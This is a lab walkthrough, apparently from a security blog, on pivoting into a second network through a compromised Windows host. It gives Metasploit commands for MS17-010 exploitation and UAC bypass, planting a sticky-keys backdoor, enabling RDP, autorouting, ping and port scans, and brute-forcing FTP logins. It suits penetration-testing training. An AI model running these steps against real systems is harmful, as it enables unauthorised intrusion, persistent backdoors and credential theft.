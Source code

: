 # FTP Pivoting through RDP

**Lab Setup requirement:**

**Attacker machine**: Kali Linux

**Pivot Machine**:  window operating system with **two** network interface

**Target Machine**: window 7 \(Allow FTP service\)

![](https://i2.wp.com/2.bp.blogspot.com/-mz_nS2XwzLI/Wc52FvT8qXI/AAAAAAAARtE/35FVXDn3UkcN8bVAxw3ibsJS4yDPiYUAwCLcBGAs/s1600/1.png?w=687&ssl=1)

#### **Exploit pivot machine**

Use exploit MS17-010 or multi handler to hack the pivot machine and bypass its UAC to achieve admin privileges.sessions

| 1 | sessions |
| :--- | :--- |


 ****From the given image you can confirm that I owned a pivot machine \(192.168.0.101\) meterpreter sessions 1.

![](https://i0.wp.com/4.bp.blogspot.com/-uQovMrYXS-U/Wc52GpTa1FI/AAAAAAAARtY/EcQnEioc-eIkAccloIZSj6kYVHqYYIBTgCLcBGAs/s1600/2.png?w=687&ssl=1)

#### **Launch the sticky key attack** 

Here I need to make post exploits to launch the sticky key attack use post/windows/manage/sticky\_keys  
msf post\(sticky\_keys\) &gt; set session 1  
msf post\(sticky\_keys\) &gt;exploit

| 123 | use post/windows/manage/sticky\_keysmsf post\(sticky\_keys\) &gt; set session 1msf post\(sticky\_keys\) &gt;exploit |
| :--- | :--- |


**Great!!** It has successfully launched a sticky attack in pivot machine and now we will utilize it later for establishing a connection with the target FTP server.

![](https://i1.wp.com/4.bp.blogspot.com/-ZFZF7a4wH2s/Wc52HHi4aJI/AAAAAAAARtc/cszQh_3xafkRI_OwSUjUSa9XXTqSAitfACLcBGAs/s1600/3.png?w=687&ssl=1)

#### **Enable RDP service**

Open meterpreter session1 and type following command which will enable remote Desktop service in the pivoted machine. meterpreter&gt; run getgui -e

| 1 | meterpreter&gt; run getgui -e |
| :--- | :--- |


![](https://i2.wp.com/1.bp.blogspot.com/-kSXnek5qSYA/Wc52HeO56AI/AAAAAAAARtg/EFKxLz_oAHYffIo6pshqLV06N-RkDHFTQCLcBGAs/s1600/4.png?w=687&ssl=1)

#### **Verify the network interface of the pivot**

Check the network interface through the following command:meterpreter&gt; ifconfig

| 1 | meterpreter&gt; ifconfig |
| :--- | :--- |


From the given image you can observe two networks interface in pivot’s system **1st** for IP **192.168.0.101** through which the attacker is connected and **2nd** for IP **192.168.100.102** through which FTP server \(targets\) are connected.

![](https://i1.wp.com/2.bp.blogspot.com/-C9AuZRJVl3E/Wc52HjUwohI/AAAAAAAARtk/-Clvo-P-fAwrVbgOUBTrPpQ47VSI12v-wCLcBGAs/s1600/5.png?w=687&ssl=1)

#### Autoroute

Since the attacker belongs to **192.168.0.1** interface and client belongs to **192.168.100.0** interface, therefore, it is not possible to directly make an attack on client network until unless the attacker acquires the same network connection. In order to achieve 192.168.100.0 network attacker need to run the **post exploitation** “autoroute”.

This module manages session routing via an existing Meterpreter session. It enables other modules to ‘pivot’ through a compromised host when connecting to the named NETWORK and SUBMASK. Autoadd will search a session for valid subnets from the routing table and interface list then add routes to them. The default will add a default route so that all TCP/IP traffic not specified in the MSF routing table will be routed through the session when pivoting.use post/multi/manage/autoroute   
msf post\(autoroute\) &gt; set session 1  
msf post\(autoroute\) &gt; exploit

| 123 | use post/multi/manage/autoroute msf post\(autoroute\) &gt; set session 1msf post\(autoroute\) &gt; exploit |
| :--- | :--- |


![](https://i0.wp.com/4.bp.blogspot.com/-Rs-w8xKhNoY/Wc52H-CnBJI/AAAAAAAARts/9mZZ-eZL3zgRhIM1JUV6GnSIslzxN826gCLcBGAs/s1600/6.png?w=687&ssl=1)

#### Ping Sweep

This module will perform IPv4 ping sweep using the OS included ping command.use post/windows/gather/ping\_sweep  
msf post\(ping\_sweep\) &gt; set rhosts 192.168.100.1-110  
msf post\(ping\_sweep\) &gt; set session 1  
msf post\(ping\_sweep\) &gt; exploit

| 1234 | use post/windows/gather/ping\_sweepmsf post\(ping\_sweep\) &gt; set rhosts 192.168.100.1-110msf post\(ping\_sweep\) &gt; set session 1msf post\(ping\_sweep\) &gt; exploit |
| :--- | :--- |


 ****Here we found a new host IP **192.168.100.103** as shown in the given image. Let’s perform TCP port scan for activated services on this machine.

![](https://i2.wp.com/1.bp.blogspot.com/-frLRtllpfrM/Wc52H5DnN_I/AAAAAAAARto/avqQlY8Yuco_asSLo1lMaRQjHJGrWHThACLcBGAs/s1600/7.png?w=687&ssl=1)

#### **Use TCP Port Scan**

This module Enumerates open TCP services by performing a full TCP connect on each port. This does not need administrative privileges on the source machine, which may be useful if pivoting.use auxiliary/scanner/portscan/tcp  
msf auxiliary\(tcp\) &gt; set ports 21  
msf auxiliary\(tcp\) &gt; set rhosts 192.168.100.103  
msf auxiliary\(tcp\) &gt; set thread 10  
msf auxiliary\(tcp\) &gt;exploit

| 12345 | use auxiliary/scanner/portscan/tcpmsf auxiliary\(tcp\) &gt; set ports 21msf auxiliary\(tcp\) &gt; set rhosts 192.168.100.103msf auxiliary\(tcp\) &gt; set thread 10msf auxiliary\(tcp\) &gt;exploit |
| :--- | :--- |


From given you can observe **port 21** is **open** and we know that 21 used for FTP services.

![](https://i0.wp.com/4.bp.blogspot.com/-tpVrVsX9RFw/Wc52IWXoJxI/AAAAAAAARtw/M3pF4JO-W80K_ohdQ3zJZ-Qrp9Dqoj1RQCLcBGAs/s1600/8.png?w=687&ssl=1)

#### **FTP Login Brute Force**

This module will test FTP logins on a range of machines and report successful logins. If you have loaded a database plugin and connected to a database this module will record successful logins and hosts so you can track your access.use auxiliary/scanner/ftp/ftp\_login  
msf auxiliary\(ftp\_login\) &gt; set rhosts 192.168.100.103  
msf auxiliary\(ftp\_login\) &gt; set user\_file /root/Desktop/user.txt  
msf auxiliary\(ftp\_login\) &gt; set pass\_file /root/Desktop/pass.txt  
msf auxiliary\(ftp\_login\) &gt; set stop\_on\_success true  
msf auxiliary\(ftp\_login\) &gt; exploit

| 123456 | use auxiliary/scanner/ftp/ftp\_loginmsf auxiliary\(ftp\_login\) &gt; set rhosts 192.168.100.103msf auxiliary\(ftp\_login\) &gt; set user\_file /root/Desktop/user.txtmsf auxiliary\(ftp\_login\) &gt; set pass\_file /root/Desktop/pass.txtmsf auxiliary\(ftp\_login\) &gt; set stop\_on\_success truemsf auxiliary\(ftp\_login\) &gt; exploit |
| :--- | :--- |


From the given image you can observe it is showing the matching combination of **username: raj** and **password: 123** for login.

![](https://i0.wp.com/3.bp.blogspot.com/-iB1lXtvHIsY/Wc52IluSqWI/AAAAAAAARt0/Bzquh9OnNEAim7JycGWm5296AH9lIgApQCLcBGAs/s1600/9.png?w=687&ssl=1)

#### **Connect to pivot through RDP**

Open a new terminal in Kali Linux and type the following command to connect with pivot machine through RDP servicerdesktop 192.168.0.101

| 1 | rdesktop 192.168.0.101 |
| :--- | :--- |


![](https://i1.wp.com/3.bp.blogspot.com/-54amtrRbI6I/Wc52FgJSNfI/AAAAAAAARtM/w_sytqzqKLg-XKzt4HC052cQ1asWvV_FACLcBGAs/s1600/10.png?w=687&ssl=1)

If you remember we had launched sticky attack above which will open a command prompt on logon screen when you will hit 5 times shift key.

Now **press 5 times to shift** key then you will get command prompt and type “**start iexplore.exe**” which will lunch Internet Explore.

![](https://i2.wp.com/1.bp.blogspot.com/-kOlPifhOvog/Wc52Fg9XijI/AAAAAAAARtI/xp_hzgq0Jqs7vdaka50u8t508xZ0dcPwACLcBGAs/s1600/11.png?w=687&ssl=1)

#### **Connect with FTP server**

Execute the following URL in the browser for FTP connection:

[**ftp://192.168.100.103**](ftp://192.168.100.103)

 Now enter the credential which we had found through FTP login brute force attack i.e. **raj: 123**

![](https://i1.wp.com/4.bp.blogspot.com/-pO8HWcVKmkk/Wc52GQgdh5I/AAAAAAAARtQ/fSmscP0oetsw1t-8sp2Rdg8eFcS4TK1MQCLcBGAs/s1600/12.png?w=687&ssl=1)

**Congrats!!!**  We are successfully connected with FTP server through pivot machine.

![](https://i2.wp.com/4.bp.blogspot.com/-7gC2J_BJRRo/Wc52GbgzKDI/AAAAAAAARtU/cQm623C6liQIq-9n9fqTHx02vmuU05EXQCLcBGAs/s1600/13.png?w=687&ssl=1)

